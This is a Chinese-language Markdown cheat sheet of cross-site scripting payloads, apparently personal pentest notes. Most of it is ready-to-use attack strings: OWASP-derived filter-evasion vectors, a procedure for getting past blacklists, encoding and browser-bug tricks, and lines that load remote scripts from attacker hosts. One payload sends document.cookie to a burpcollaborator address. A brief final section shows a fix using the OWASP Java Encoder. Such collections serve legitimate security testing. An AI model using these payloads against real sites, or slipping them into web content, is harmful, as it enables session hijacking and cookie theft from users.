


## 精简版常用payload
```
<script>alert(1)</script>
<script src=https://xsspt.com/VBAhTu></script>
<a href=javascript:alert(1)>xss</a>
<svg onload=alert(1)>


<details open ontoggle=alert(1)>
<body onload=alert(1)>
<M onmouseover=alert(1)>M
<iframe src=javascript:alert(1)></iframe>
<iframe onload=alert(1)>
<input type="submit" onfocus=alert(1)>
<input type="submit" onclick=alert(1)>
<form><input type="submit" formaction=javascript:alert(1)>
```
来源：https://xz.aliyun.com/t/8501

各个位置都可以用的payload：
```javascript
javascript:/*--></title></style></textarea></script></xmp><svg/onload='+/"/+/onmouseover=1/+/[*/[]/+holive(1)//'>
```

来源：https://eviloh.github.io/2018/08/01/xss%E8%BF%87%E6%BB%A4%E9%80%9F%E6%9F%A5%E8%A1%A8/

## svg下的xss
```
<svg id="m7" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" width="100" height="100">
<script>alert(1)</script>
<foreignObject width="100" height="50" requiredExtensions="http://www.w3.org/1999/xhtml">
	<embed xmlns="http://www.w3.org/1999/xhtml" src="javascript:alert(666)" />
</foreignObject>
</svg>
```
```
<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
<svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">
   <rect width="300" height="100" style="fill:rgb(0,0,255);stroke-width:3;stroke:rgb(0,0,0)" />
   <script type="text/javascript">
      window.location.href="http://www.baidu.com"
   </script>
</svg>
```

来源：
- https://www.mi1k7ea.com/2019/03/22/%E5%9B%BE%E7%89%87XSS%E5%B0%8F%E7%BB%93/
- https://www.cnblogs.com/r00tgrok/p/svg_build_xss_vector_bypass_firefox_and_chrome.html
- http://ghostlulz.com/xss-svg/


## 攻击payload
```
';alert(String.fromCharCode(88,83,83))//';alert(String.fromCharCode(88,83,83))//";alert(String.fromCharCode(88,83,83))//";alert(String.fromCharCode(88,83,83))//--></SCRIPT>">'><SCRIPT>alert(String.fromCharCode(88,83,83))</SCRIPT>
'';!--"<XSS>=&{()}
0\"autofocus/onfocus=alert(1)--><video/poster/onerror=prompt(2)>"-confirm(3)-"
<script/src=data:,alert()>
<marquee/onstart=alert()>
<video/poster/onerror=alert()>
<isindex/autofocus/onfocus=alert()>
<SCRIPT SRC=http://ha.ckers.org/xss.js></SCRIPT>


<a onmouseover="alert(document.cookie)">xxs link</a>
<a onmouseover=alert(document.cookie)>xxs link</a>
<SCRIPT>alert("XSS")</SCRIPT>">


</img>


<SCRIPT/XSS SRC="http://ha.ckers.org/xss.js"></SCRIPT>
<BODY onload!#$%&()*~+-_.,:;?@[/|\]^`=alert("XSS")>
<SCRIPT/SRC="http://ha.ckers.org/xss.js"></SCRIPT>
<<SCRIPT>alert("XSS");//<</SCRIPT>
<SCRIPT SRC=http://ha.ckers.org/xss.js?< B >
<SCRIPT SRC=//ha.ckers.org/.j>
<script>alert('XSS');</script>
</TITLE><SCRIPT>alert("XSS");</SCRIPT>
<INPUT TYPE="IMAGE" SRC="javascript:alert('XSS');">
<BODY BACKGROUND="javascript:alert('XSS')">


<STYLE>li {list-style-image: url("javascript:alert('XSS')");}</STYLE><UL><LI>XSS</br>


<BODY ONLOAD=alert('XSS')>
<BGSOUND SRC="javascript:alert('XSS');">
<BR SIZE="&{alert('XSS')}">
<LINK REL="stylesheet" HREF="javascript:alert('XSS');">
<LINK REL="stylesheet" HREF="http://ha.ckers.org/xss.css">
<STYLE>@import'http://ha.ckers.org/xss.css';</STYLE>
<META HTTP-EQUIV="Link" Content="<http://ha.ckers.org/xss.css>; REL=stylesheet">
<STYLE>BODY{-moz-binding:url("http://ha.ckers.org/xssmoz.xml#xss")}</STYLE>
<STYLE>@im\port'\ja\vasc\ript:alert("XSS")';</STYLE>

exp/*<A STYLE='no\xss:noxss("*//*");
xss:ex/*XSS*//*/*/pression(alert("XSS"))'>
<STYLE TYPE="text/javascript">alert('XSS');</STYLE>
<STYLE>.XSS{background-image:url("javascript:alert('XSS')");}</STYLE><A CLASS=XSS></A>
<STYLE type="text/css">BODY{background:url("javascript:alert('XSS')")}</STYLE>
<XSS STYLE="xss:expression(alert('XSS'))">
<XSS STYLE="behavior: url(xss.htc);">
¼script¾alert(¢XSS¢)¼/script¾
<META HTTP-EQUIV="refresh" CONTENT="0;url=javascript:alert('XSS');">
<META HTTP-EQUIV="refresh" CONTENT="0;url=data:text/html base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4K">
<META HTTP-EQUIV="refresh" CONTENT="0; URL=http://;URL=javascript:alert('XSS');">
<IFRAME SRC="javascript:alert('XSS');"></IFRAME>
<IFRAME SRC=# onmouseover="alert(document.cookie)"></IFRAME>
<FRAMESET><FRAME SRC="javascript:alert('XSS');"></FRAMESET>
<TABLE BACKGROUND="javascript:alert('XSS')">
<TABLE><TD BACKGROUND="javascript:alert('XSS')">
<DIV STYLE="background-image: url(javascript:alert('XSS'))">
<DIV STYLE="background-image:\0075\0072\006C\0028'\006a\0061\0076\0061\0073\0063\0072\0069\0070\0074\003a\0061\006c\0065\0072\0074\0028.1027\0058.1053\0053\0027\0029'\0029">
<DIV STYLE="background-image: url(&#1;javascript:alert('XSS'))">
<DIV STYLE="width: expression(alert('XSS'));">
<!--[if gte IE 4]><SCRIPT>alert('XSS');</SCRIPT><![endif]-->
<BASE HREF="javascript:alert('XSS');//">
<OBJECT TYPE="text/x-scriptlet" DATA="http://ha.ckers.org/scriptlet.html"></OBJECT>
<!--#exec cmd="/bin/echo '<SCR'"--><!--#exec cmd="/bin/echo 'IPT SRC=http://ha.ckers.org/xss.js></SCRIPT>'"-->
<? echo('<SCR)';echo('IPT>alert("XSS")</SCRIPT>'); ?>

<META HTTP-EQUIV="Set-Cookie" Content="USERID=<SCRIPT>alert('XSS')</SCRIPT>">
<HEAD><META HTTP-EQUIV="CONTENT-TYPE" CONTENT="text/html; charset=UTF-7"> </HEAD>+ADw-SCRIPT+AD4-alert('XSS');+ADw-/SCRIPT+AD4-
<SCRIPT a=">" SRC="http://ha.ckers.org/xss.js"></SCRIPT>
<SCRIPT =">" SRC="http://ha.ckers.org/xss.js"></SCRIPT>
<SCRIPT a=">" '' SRC="http://ha.ckers.org/xss.js"></SCRIPT>
<SCRIPT "a='>'" SRC="http://ha.ckers.org/xss.js"></SCRIPT>
<SCRIPT a=`>` SRC="http://ha.ckers.org/xss.js"></SCRIPT>
<SCRIPT a=">'>" SRC="http://ha.ckers.org/xss.js"></SCRIPT>
<SCRIPT>document.write("<SCRI");</SCRIPT>PT SRC="http://ha.ckers.org/xss.js"></SCRIPT>
<A HREF="http://66.102.7.147/">XSS</A>
0\"autofocus/onfocus=alert(1)--><video/poster/ error=prompt(2)>"-confirm(3)-"
veris-->group<svg/onload=alert(/XSS/)//
#">
element[attribute='
[<blockquote cite="]">[" onmouseover="alert('RVRSH3LL_XSS');" ]
%22;alert%28%27RVRSH3LL_XSS%29//
javascript:alert%281%29;
<w contenteditable id=x onfocus=alert()>
alert;pg("XSS")
<svg/onload=%26%23097lert%26lpar;1337)>
<script>for((i)in(self))eval(i)(1)</script>
<scr<script>ipt>alert(1)</scr</script>ipt><scr<script>ipt>alert(1)</scr</script>ipt>
<sCR<script>iPt>alert(1)</SCr</script>IPt>
<a href="data:text/html;base64,PHNjcmlwdD5hbGVydCgiSGVsbG8iKTs8L3NjcmlwdD4=">test</a>
```

### Bypassing黑名单
```
大多数的场所是用的黑名单来做过滤器的，有三种方式绕过黑名单的测试：

1、暴力测试（输入大量的payload，看返回结果）
2、根据正则推算
3、利用浏览器bug
初步测试
1)尝试插入比较正常的HTML标签，例如：<b>，<i>，<u>来看一下返回页面的情况是怎样的，是否被HTML编码了，或者标签被过滤了。

2)尝试插入不闭合的标签，例如：<b，<i，<u，<marquee然后看一下返回响应，是否对开放的标签也有过滤。

3)然后测试几个XSS的payload，基本所有的xss过滤器都会进行过滤的：

<script>alert(1);</script>
<script>prompt(1);</script>
<script>confirm(1);</script>
<scriptsrc="http://rhainfosec.com/evil.js">
```
看返回响应，是过滤的全部，还是只过滤了部分，是否还留下了alert,prompt,confirm字符，再尝试大小写的组合：
```
<scRiPt>alert(1);</scrIPt>
```
4)如果过滤器仅仅是把<script>和</script>标签过滤掉，那么可以用
```
<scr<script>ipt>alert(1)</scr<script>ipt>
```
的方式来绕过，这样当<script>标签被过滤掉，剩下的组合起来刚好形成一个完整的payload。

5)用<a href标签来测试，看返回响应
```
<a href="http://www.google.com">Clickme</a>
```
<a标签是否被过滤 href是否被过滤 href里的数据是否被过滤

如果没有数据被过滤，插入javascript协议看看：
```
<a href="javascript:alert(1)">Clickme</a>
```
是否返回错误 javascript的整个协议内容是否都被过滤掉，还是只过滤了javascript字符 尝试下大小写转换

继续测试事件触发执行javascript：
```
<a href="rhainfosec.com" onmouseover=alert(1)>ClickHere</a>
```
看onmouseover事件是否被过滤。测试一个无效的事件，看过滤规则：
```
<a href="rhainfosec.com" onclimbatree=alert(1)>ClickHere</a>
```
是完整的返回了呢，还是跟onmouseover一样被干掉了。

如果是完整的返回的话呢，那么意味着，做了事件的黑名单，但是在HTML5中，有超过150种的方式来执行javascript代码的事件测试一个很少见的事件：
```
<body/onhashchange=alert(1)><a href=#>clickit
```
测试其他标签
接下来测试其他的标签跟属性

Src属性
```

 
<video src=x onerror=prompt(1);>
<audio src=x onerror=prompt(1);>
```
iframe标签
```
<iframe src="javascript:alert(2)">
<iframe/src="data:text&sol;html;&Tab;base64&NewLine;,PGJvZHkgb25sb2FkPWFsZXJ0KDEpPg==">
```
embed标签
```
<embed/src=//goo.gl/nlX0P>
```
action属性
利用<form，<isindex等标签中的action属性执行javascript
```
<form action="Javascript:alert(1)"><input type=submit>
<isindex action="javascript:alert(1)" type=image>
<isindex action=j&Tab;a&Tab;vas&Tab;c&Tab;r&Tab;ipt:alert(1) type=image>
<isindex action=data:text/html, type=image>
<formaction='data:text&sol;html,&lt;script&gt;alert(1)&lt/script&gt'><button>CLICK
```

```
formaction属性
<isindexformaction="javascript:alert(1)" type=image>
<input type="image" formaction=JaVaScript:alert(0)>
<form><button formaction=javascript&colon;alert(1)>CLICKME
background属性
<table background=javascript:alert(1)></table> // 在Opera 10.5和IE6上有效
poster属性
<video poster=javascript:alert(1)//></video> // Opera 10.5以下有效
data属性
<object data="data:text/html;base64,PHNjcmlwdD5hbGVydCgiSGVsbG8iKTs8L3NjcmlwdD4=">
<object/data=//goo.gl/nlX0P?
code属性
<applet code="javascript:confirm(document.cookie);"> // Firefox有效
<embed code="http://businessinfo.co.uk/labs/xss/xss.swf" allowscriptaccess=always>
事件触发
<svg/onload=prompt(1);>
<marquee/onstart=confirm(2)>/
<body onload=prompt(1);>
<select autofocus onfocus=alert(1)>
<textarea autofocus onfocus=alert(1)>
<keygen autofocus onfocus=alert(1)>
<video><source onerror="javascript:alert(1)">
最短的测试向量
<q/oncut=open()>
<q/oncut=alert(1)>//在限制长度的地方很有效
嵌套
<marquee<marquee/onstart=confirm(2)>/onstart=confirm(1)>
<bodylanguage=vbsonload=alert-1//IE8有效
<command onmouseover
="\x6A\x61\x76\x61\x53\x43\x52\x49\x50\x54\x26\x63\x6F\x6C\x6F\x6E\x3B\x63\x6F\x6E\x6 6\x69\x72\x6D\x26\x6C\x70\x61\x72\x3B\x31\x26\x72\x70\x61\x72\x3B">Save</command> //IE8有效
过滤括号的情况下
当括号被过滤的时候可以使用throw来绕过

<a onmouseover="javascript:window.onerror=alert;throw 1>

以上两个测试向量在Chrome跟IE在上面会出现一个“uncaught”的错误，可以用以下的向量：

<body/onload=javascript:window.onerror=eval;throw'=alert\x281\x29';>
expression属性
 // IE7以下
<div style="color:rgb(''&#0;x:expression(alert(1))"></div> // IE7以下
<style>#test{x:expression(alert(/XSS/))}</style> // IE7以下
location属性
<a onmouseover=location='javascript:alert(1)'>click
<body onfocus="loaction='javascript:alert(1)'">123
其他的一些payload
<meta http-equiv="refresh" content="0;url=//goo.gl/nlX0P">
<meta http-equiv="refresh" content="0;javascript&colon;alert(1)"/>
<svg xmlns="http://www.w3.org/2000/svg"><g onload="javascript:\u0061lert(1);"></g></svg>
<svg xmlns:xlink="http://www.w3.org/1999/xlink"><a><circle r=100 /><animate attributeName="xlink:href" values=";javascript:alert(1)" begin="0s" dur="0.1s" fill="freeze"/>
<svg><![CDATA[><imagexlink:href="]]></svg>
<meta content="&NewLine; 1 &NewLine;;JAVASCRIPT&colon; alert(1)" http-equiv="refresh"/>
<math><a xlink:href="//jsfiddle.net/t846h/">click
当= ( ) ; :被过滤时
<svg><script>alert&#40/1/&#41</script> // 通杀所有浏览器
opera中可以不闭合

<svg><script>alert&#40 1&#41 // Opera可查
实体编码
很多情况下WAF会实体编码用户的输入数据，

javascript是一个很灵活的语言，可以使用很多编码，比如十六进制，Unicode和HTML。但是也对这些编码可以用在哪个位置有规定：

属性：

href=
action=
formaction=
location=
on*=
name=
background=
poster=
src=
code=
支持的编码方式：HTML，八进制，十进制，十六进制和Unicode

属性：

data=
支持的编码：base64

基于上下文的过滤
WAF最大的问题，在于不知道输出的位置的上下文，导致根据具体环境可以绕过。

输入在属性里
<input value="XSStest" type=text>
可控位置为XSStest，可以使用

">
如果< >被过滤的话可以换成

" autofocus onfocus=alert(1)//
同样还有很多其他的payload：

"onmouseover=" prompt(0)x="
"onfocusin=alert(1) autofocusx="
" onfocusout=alert(1) autofocus x="
"onblur=alert(1) autofocusa="
输入在script标签中
例如：

<script>
Var x="Input";
</script>
可控位置在Input，可以闭合script标签插入代码，但是同样我们仅仅闭合双引号就可以执行js代码了

";alert(1)//
最终结果就是

<script>
Var x="";alert(1)//
</script>
非常规的事件监听
例如：

";document.body.addEventListener("DOMActivate",alert(1))//
";document.body.addEventListener("DOMActivate",prompt(1))//
";document.body.addEventListener("DOMActivate",confirm(1))//
下面是一些相同的类：

DOMAttrModified
DOMCharacterDataModified
DOMFocusIn
DOMFocusOut
DOMMouseScroll
DOMNodeInserted
DOMNodeInsertedIntoDocument
DOMNodeRemoved
DOMNodeRemovedFromDocument
DOMSubtreeModified
HREF内容可控
例如：

<a href="Userinput">Click</a>
可控的是Userinput那里我们需要做的只是把javascript代码输入就好了：

javascript:alert(1)//
最后组合为：

<a href="javascript:alert(1)//">Click</a>
变换
使用HTML实体URL编码绕过黑名单，href里会自动实体解码，如果都失败了，可以尝试使用vbscript在IE10以下都有效，或者使用data协议。

JavaScript变换
使用javascript协议时可使用的例子：

javascript&#00058;alert(1)
javaSCRIPT&colon;alert(1)
JaVaScRipT:alert(1)
javas&Tab;cript:\u0061lert(1);
javascript:\u0061lert&#x28;1&#x29
javascript&#x3A;alert&lpar;document&period;cookie&rpar;
Vbscript变换
vbscript:alert(1);
vbscript&#00058;alert(1);
vbscr&Tab;ipt:alert(1)"
Data URl
data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==
JSON
当你的输入会在encodeURIComponent当中显示出来的时候，很容易插入xss代码了

encodeURIComponent('userinput')
userinput处可控，测试代码：

-alert(1)-
-prompt(1)-
-confirm(1)-
最终结果：

encodeURIComponent("-alert(1)-")
encodeURIComponent("-prompt(1)-")
SVG标签
当返回结果在svg标签中的时候，会有一个特性

<svg><script>varmyvar="YourInput";</script></svg>
YourInput可控，输入

www.site.com/test.php?var=text";alert(1)//
如果把"编码一些他仍然能够执行:

<svg><script>varmyvar="text&quot;;alert(1)//";</script></svg>
浏览器bug
字符集的bug在IE中出现过很多次，第一个就是UTF-7，但是这个只在之前的版本中可用，现在讨论一个在现在的浏览器当中可以执行的javascript。

http://xsst.sinaapp.com/utf-32-1.php?charset=utf-8&v=XSS
这个页面当中我们可控当前页面的字符集，当我们常规的测试时：

http://xsst.sinaapp.com/utf-32-1.php?charset=utf-8&v=">
返回结果可以看到双引号被编码了：

<html>
<meta charset="utf-8"></meta>
<body>
<input type="text" value="&quot;&gt;&lt;img src=x onerror=prompt(0);&gt;"></input>
</body>
</html> 
设置字符集为UTF-32：

http://xsst.sinaapp.com/utf-32-1.php?charset=utf-32&v=%E2%88%80%E3%B8%80%E3%B0%80script%E3%B8%80alert(1)%E3%B0%80/script%E3%B8%80
上面这个在IE9及以下版本可以执行成功。

利用0字节绕过：

<scri%00pt>alert(1);</scri%00pt>
<scri\x00pt>alert(1);</scri%00pt>
<s%00c%00r%00%00ip%00t>confirm(0);</s%00c%00r%00%00ip%00t>
在IE9及以下版本有效。

其他等等一系列浏览器特性的XSS可以参考以下文章：

http://drops.wooyun.org/tips/147
```


### Notes

非合法标签：
```
<M/onclick="alert(1)">M
```

标签和属性之间只能出现空格么？ 
```

```
在有些情况下我们可以使用"/"来代替空格 


【a标签的href属性】：
```
<a href=javascript:alert(2)>M 

```

可以用"/"来代替单引号和双引号
```
<script>alert(/3/)</script> 
```

【button标签】 ：
```
<form><button formaction=javascript&colon;alert(1)>M
```

无需交互的button：(使用onfocus事件，再加上autofocus我们就可以达到自动弹窗，无须交互了。 )
```
<button onfocus=alert(1) autofocus>
```


【body标签】
```
<body onload=alert(77)> 
```

【object标签】
```
<object data=data:text/html;base64,PHNjcmlwdD5hbGVydCgiS0NGIik8L3NjcmlwdD4=></object>
```

【input标签】 

```
<input onfocus=alert(888) autofocus> 
```

【select标签】 
```
<select onfocus=javascript:alert(1) autofocus>
```
【textarea标签】 
```
<textarea onfocus=javascript:alert(1) autofocus>
```

【embed标签】 
```
<embed src="data:text/html;base64,PHNjcmlwdD5hbGVydCgiS0NGIik8L3NjcmlwdD4="></embed>    //chrome


<embed src=javascript:alert('firefox')> //firefox
```

【video标签】 
```
<video><source onerror="alert(1)"> 
<video src=x onerror=alert(48)>
```
【audio标签】 
```
<audio src=x onerror=alert(47)>
```

### 拿cookie
```
<svg onload=document.location='http://gp913e051giaos37xrsehq7f2681wq.burpcollaborator.net/?cookie='+document.cookie//<<SCRIPT>
```

### Ref
 
- https://gist.github.com/rvrsh3ll/09a8b933291f9f98e8ec
- https://owasp.org/www-community/xss-filter-evasion-cheatsheet
- https://wooyun.js.org/drops/Bypass%20xss%E8%BF%87%E6%BB%A4%E7%9A%84%E6%B5%8B%E8%AF%95%E6%96%B9%E6%B3%95.html
- https://www.leavesongs.com/PENETRATION/xss-collect.html
- https://portswigger.net/web-security/cross-site-scripting/cheat-sheet
- https://www.gosecure.net/blog/2022/06/29/did-you-know-your-browsers-autofill-credentials-could-be-stolen-via-cross-site-scripting-xss/

## 防御方法
参考：
- https://github.com/OWASP/owasp-java-encoder/

引入依赖：
```xml
<dependency>
    <groupId>org.owasp.encoder</groupId>
    <artifactId>encoder</artifactId>
    <version>1.2.2</version>
</dependency>

<dependency>
    <groupId>org.owasp.encoder</groupId>
    <artifactId>encoder-jsp</artifactId>
    <version>1.2.2</version>
</dependency>
```

然后在代码中：
```java
import org.owasp.encoder.Encode;

// 对输出进行html转义
Encode.forHtml(xss);
```

修复前存在漏洞的代码：
```java
    @RequestMapping("/reflect")
    @ResponseBody
    public static String reflect(String xss)
    {
        return xss;
    }
```

Demo:


修复后代码：
```java
import org.owasp.encoder.Encode;

    @RequestMapping("/safe_encoder")
    @ResponseBody
    public static String safe_encoder(String xss)
    {
        return Encode.forHtml(xss);
    }
}
```

Demo:



### 问题
`Content-Type: text/plain`这样还能在IE下触发？
https://hackerone.com/reports/472543


### img的src属性
这里插入任意js并不能xss
- [XSS attack with javascript in img src attribute](https://stackoverflow.com/questions/1798633/xss-attack-with-javascript-in-img-src-attribute)
